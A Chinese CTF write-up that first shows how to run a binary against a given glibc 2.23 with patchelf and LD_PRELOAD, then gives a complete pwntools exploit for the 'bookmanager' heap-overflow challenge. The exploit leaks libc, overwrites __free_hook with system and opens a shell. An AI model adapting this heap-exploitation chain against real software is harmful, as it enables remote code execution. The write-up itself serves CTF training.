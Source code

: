 # 写在前面

第一次比赛一个堆溢出题目快要做出来了，却因为环境配置问题（一直无法用给定版本的 `libc.so` 运行程序）。最后不得不再源码编译 `glibc-2.23`（坑太多了，系统被搞崩了一次），心态爆炸。

## 指定版本的 `libc` 运行程序

总结一下到底应该如何使用一个给定的 `glibc` 库文件运行指定的可执行文件：

1. 第一步则是需要拿到指定的 `ld.so` 文件（用于链接 `libc.so` 与可执行文件的程序），将目标文件的链接程序地址指向本地的 `ld.so` 文件。

   这一步网上有 [python 脚本](<https://bbs.pediy.com/thread-225849.htm>)，但是使用 [`patchelf` 这个命令](<https://www.jianshu.com/p/3b219df2b2bd>)更快。

2. 第二步是设置 `LD_PRELOAD` 环境变量。

比如说，这个程序需要运行 `libc-2.23.so`，我们就需要执行以下的两条命令：

```bash
$ patchelf --set-interpreter /usr/local/glibc-2.23/lib/ld-2.23.so bookmanager

$ export LD_PRELOAD=/usr/local/glibc-2.23/lib/libc-2.23.so
```

如果我们已经将可执行文件中，链接程序的地址设置好了，我们也可以再 `pwntools` 中这么运行：

```python
from pwn import *
p = process(["./bookmanager"], env={"LD_PRELOAD": "/usr/local/glibc-2.23/lib/libc-2.23.so"})
```

## 编译指定版本的 `libc`

但是上面我文件中的 `ld.so` 文件，题目是没有给的，于是我们就需要通过源码编译的方式得到这个文件。

- 网上应该会有直接的资源下载，但是我太菜了，没有找到，只找到了[源码的国内镜像](<http://mirrors.nju.edu.cn/gnu/libc/>)

如果没有遇到任何问题，下面几条命令应该是一个完整的编译流程：

```bash
$ wget http://mirrors.nju.edu.cn/gnu/libc/glibc-2.23.tar.bz2

$ tar -xf glibc-2.23.tar.bz2

$ mkdir ./glibc-2.23/glibc-build && cd ./glibc-2.23/glibc-build

$ ../configure --prefix=/usr/local/glibc-2.23 --disable-werror 

$ make && make install
```

但是，使用高版本的 `gcc`、`g++` 交叉编译低版本的 `glibc` 会出现很多 `bug`：

1. 源码层面的出现很多 `bug` 在网上找到了一个[解决方案]([https://blog.wh98.me/2019/03/20/%E7%BC%96%E8%AF%91glibc%E9%81%87%E5%88%B0%E7%9A%84%E9%97%AE%E9%A2%98/](https://blog.wh98.me/2019/03/20/编译glibc遇到的问题/))；
2. `cc1` 会将 `warning` 当作 `error`，需要在运行 `configure` 命令时加入 `--disable-werror`。

# book manager

程序流程，漏洞发现什么的都不说了，这个题很简单，直接上 `exp.py`：

```python
#!/usr/bin/env python3
from pwn import *


class Challenge:
    def __init__(self, local):
        self.local = local
        if local:
            self.p = process(["./bookmanager"], env={"LD_PRELOAD": "/usr/local/glibc-2.23/lib/libc-2.23.so"})
        else:
            self.p = remote("47.112.115.30", 13337)
        self.libc = ELF("/usr/local/glibc-2.23/lib/libc-2.23.so")
        self.section_ptr, self.book, self.libc_base = {}, {}, 0

    def gdb(self, script):
        assert self.local
        context.terminal = ['tmux', 'splitw', '-h']
        gdb.attach(proc.pidof(self.p)[0], gdbscript=script)

    def set_bookname(self, book_name):
        self.p.sendlineafter("Name of the book you want to create: ", book_name)
        self.p.recvuntil("Your choice:")

    def add_chapter(self, chapter_name):
        self.p.sendline("1")
        self.p.sendlineafter("Chapter name:", chapter_name)
        self.p.recvuntil("Your choice:")

    def add_section(self, chapter_name, section_name):
        self.p.sendline("2")
        self.p.sendlineafter("Which chapter do you want to add into:", chapter_name)
        self.section_ptr[section_name] = int(self.p.recvline().lstrip("0x"), 16)
        self.p.sendlineafter("Section name:", section_name)
        self.p.recvuntil("Your choice:")

    def add_text(self, section_name, text_length, text):
        assert text_length <= 256
        self.p.sendline("3")
        self.p.sendlineafter("Which section do you want to add into:", section_name)
        self.p.sendlineafter("How many chapters you want to write:", str(text_length))
        self.p.sendlineafter("Text:", text)
        self.p.recvuntil("Your choice:")

    def remove_chapter(self, chapter_name):
        self.p.sendline("4")
        self.p.sendlineafter("Chapter name:", chapter_name)
        self.p.recvuntil("Your choice:")

    def remove_section(self, section_name):
        self.p.sendline("5")
        self.p.sendlineafter("Section name:", section_name)
        self.p.recvuntil("Your choice:")

    def remove_text(self, section_name):
        self.p.sendline("6")
        self.p.sendlineafter("Section name:", section_name)
        self.p.recvuntil("Your choice:")

    def book_preview(self):
        self.p.sendline("7")
        recved = self.p.recvuntil("\n=========================="). \
            rstrip("\n==========================").lstrip("\nBook:")
        book_name, chapters = recved.split("\n  Chapter:")[0], recved.split("\n  Chapter:")[1:]
        self.book = {book_name: {}}
        for cind, chapter in enumerate(chapters):
            chapter_name, sections = chapter.split("\n    Section:")[0], chapter.split("\n    Section:")[1:]
            self.book[book_name][chapter_name] = {}
            for sind, section in enumerate(sections):
                section_name, text = section.split("\n      Text:")[0], section.split("\n      Text:")[1]
                self.book[book_name][chapter_name][section_name] = text
        self.p.recvuntil("Your choice:")

    def update(self, choice, old, new):
        assert choice in ["Chapter", "Section", "Text"]
        self.p.sendline("8")
        self.p.sendlineafter("What to update?(Chapter/Section/Text):", choice)
        self.p.sendlineafter(":", old)
        self.p.sendlineafter(":", new)
        assert self.p.recvuntil("Your choice:").strip().startswith("Updated")

    def pwn(self):
        # todo: initialization
        self.set_bookname("PWN_BOOK")
        self.add_chapter("chapter_one")
        self.add_section("chapter_one", "section_one")
        self.add_text("section_one", 0x100 - 0x10 - 0x30, "text_one")
        self.add_section("chapter_one", "section_two")

        # todo: leak heap to get arbitrarily write&read
        self.update("Text", "section_one", flat([
            "A" * 0xc8, 0x41, "section_two".ljust(0x28, "\x00"), 0x20
        ], word_size=64))

        def write_to(address, content):
            payload = flat([
                "A" * 0xc8, 0x41, "section_two".ljust(0x20, "\x00"), address
            ], word_size=64)
            assert len(payload) < 0xff and len(content) < 0xff
            self.update("Text", "section_one", payload)
            self.update("Text", "section_two", content)

        def read_from(address):
            payload = flat([
                "A" * 0xc8, 0x41, "section_two".ljust(0x20, "\x00"), address
            ], word_size=64)
            assert len(payload) < 0xff
            self.update("Text", "section_one", payload)
            self.book_preview()
            text = self.book["PWN_BOOK"]["chapter_one"]["section_two"]
            return u64(text.ljust(8, "\x00")[:8])

        # todo: leak libc address from unsorted bin
        self.add_section("chapter_one", "section_three")
        self.add_text("section_three", 0x100, "BIGTEXT")
        self.add_chapter("chapter_two")     # prevent heap-top
        self.remove_text("section_three")
        unsorted_bin_addr = read_from(self.section_ptr["section_three"] + 0x30 + 0x10)
        self.libc_base = unsorted_bin_addr - 0x19eb78
        print "leak libc_base: %x" % self.libc_base

        # todo: overwrite __free_hook & execute system("/bin/sh")
        free_hook_addr = self.libc.symbols["__free_hook"] + self.libc_base
        system_addr = self.libc.symbols["system"] + self.libc_base
        write_to(free_hook_addr, p64(system_addr))
        self.add_chapter("/bin/sh")
        self.remove_chapter("/bin/sh")
        self.p.interactive()


if __name__ == "__main__":
    c = Challenge(True)
    c.pwn()
```

